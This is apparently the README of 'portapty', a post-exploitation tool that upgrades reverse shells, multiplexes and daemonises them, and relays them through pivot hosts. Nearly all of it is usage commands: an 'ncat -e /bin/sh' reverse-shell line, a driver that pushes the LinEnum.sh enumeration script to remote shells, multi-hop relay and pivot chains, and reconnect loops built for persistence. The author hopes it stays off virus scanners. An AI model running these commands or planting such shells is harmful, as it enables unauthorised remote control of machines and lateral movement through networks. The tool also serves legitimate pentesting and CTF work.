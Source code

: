# portapty

## What?
This is a portable pseudoterminal reverse shell upgrader and multiplexer with daemonisation
### What???
Portable: works on any linux version that can run this elf type (it's all statically linked and posix compliant)

Pseudoterminal: you can Control-C without killing the shell

Reverse shell: I haven't made it support bind shells yet

Upgrader: When a normal shell connects to it and doesn't try to TLS handshake with it,
it will be upgraded in a posix-compliant manner (this should even work on Linux from scratch boxes using `dash`)

Multiplexer: Multiple shells can connect at once

Daemonisation: The upgraded reverse shells get completly detached from the parent process

## Usage
```
portapty {client|server|keygen|relay} OPTIONS
Options:
    client: [cert CERTHASH] to IP PORT [to IP PORT]...
    server: [cert CERTFILE] [key KEYFILE] [driver PATH] [cmd CMD] bind IP PORT [bind IP PORT]...;
    keygen: [cert CERTFILE] [key KEYFILE]
    relay:  bind IP PORT to IP PORT [bind|to IP PORT]...
```
### Server
A simple invocation would be `portapty server bind :: 42069`. This hosts a server on port 42069 that will accept
both standard reverse shells on all IPv4 and v6 addresses (dual to IPv6 dual stacking) and portapty clients. 

On connection (like by `ncat -e /bin/sh :: 42069`), you will see messages like:
```
[portapty] SuperSecureServer ([::1]:57388) available on /dev/pts/63
```
If you run `screen /dev/pts/63` on this created pty, you will be able to interact with it fully, as if it were an ssh session.

This will, however, tell standard reverse shells to connect to `[::]:42069`, which will only work on localhost. If you want to bind to a specific ip, you can try
```
portapty server bind 10.0.0.1 42069
```
Which, if you can bind to 10.0.0.1, will bind to just that v4 address, and tell all reverse shells to upgrade and connect to that endpoint.

For more customisation, you can use the `advert` options, which will give a list of endpoints that clients can connect to
```
portapty server bind :: 42069 advert 10.0.0.1 31337
```
This will tell upgraded clients to reconnect to 10.0.0.1:31337 (but NOT `[::]:42069`).

If you had a script you wished to run on the remote, you could try the folowing:

```sh
portapty server driver 'cat >&2&cat /tmp/LinEnum.sh;echo sleep 1;echo exit;wait' cmd bash bind :: 42069
```

This is good demonstration of the features provided to drivers. Let's break down the shell command argument for driver:
* `cat >&2 &` will grab the output of the remote shell, and pass it to stderr, which is then printed to the server terminal, and then move to the background
* `cat /tmp/LinEnum.sh` will send the script `/tmp/LinEnum.sh` to the remote shell
* `echo sleep 1` sends the command `sleep 1` to the remote shell, giving us time to flush the output before disconnecting
* `echo exit` will tell the remote shell to close
* `wait` will wait for the cat command to finish, which will be when the remote closes
We also can elect to use `bash` rather than the standard shell with the system, which will make most scripts run better.

### Client
It is rather irregular to invoke the client directly, but if you are particularly worried about security, or are working with an arbitrary upload vulnerability, this could be helpful. 

For a simple connection WITHOUT verifying the server, you can use just `portapty client to :: 42069`, but for securing it, you can use:
```
portapty client cert iITKuu8FgIgarNJCo/4mG6mbN0I/p6kytpfTVvB+PCo= to :: 42069
```
This will check that the certificate SHA2-256 hash is `iITKuu8FgIgarNJCo/4mG6mbN0I/p6kytpfTVvB+PCo=`, and fail if it isn't.

### Keygen
If you have an unstable computer/connection, or are trying some HA system, you may wish to use the `keygen` option. An example is the following:

```
portapty keygen key portapty.key cert portapty.crt
```

This will print the fingerprint as well, so that you can prepare clients before starting the server

The server can be to to use the certificate and key like so:

```
portapty server key portapty.key cert portapty.crt
```
### Relay and expose
This is one of the cooler features of portapty. This acts as a simple TCP forwarder, and so allows pivoting with a central server:

```sh
# Main server
portapty server key portapty.key cert portapty.crt bind 10.0.0.1 42069
# Pivot server
portapty relay bind 192.168.0.1 42069 to 10.0.0.10 42069
# Target server
portapty client cert FinGeRpRInt= to 192.168.0.1 42069
```

Since the client is encrypted end-to-end, this unencrypted relay usage is secure. However, `relay` could also be used as a port forwarder, which would not have encryption. I'm not sure how to encrypt this well bidirectionally: feel free to submit a pull request!

### High availability
The release client has a `while(1)` loop to stop temporary disconnects from messing up your network, and paired with multiple endpoint specifications, this can be used to achieve a very resiliant network.

```
# Relay to the first accepting server
portapty relay bind :: 42069 to 10.0.0.1 42069 to 10.0.0.2 42069
# Connect to the first server that accepts us
portapty client to 10.0.0.1 42069 to 10.0.0.2 42069
# Tell upgraded clients to try multiple addresses (note the repeated ep in bind and advert)
portapty server bind 10.0.0.1 42069 advert 10.0.0.1 42069 advert 10.0.0.2 42069
```

## Disclaimer
Please don't do anything stupid with this (i.e. anything outside pentesting and ctfs). 
It isn't currently on any virus scanners, and I would prefer it to stay that way. 
It has a easy to detect signature, so it ain't stealthy.
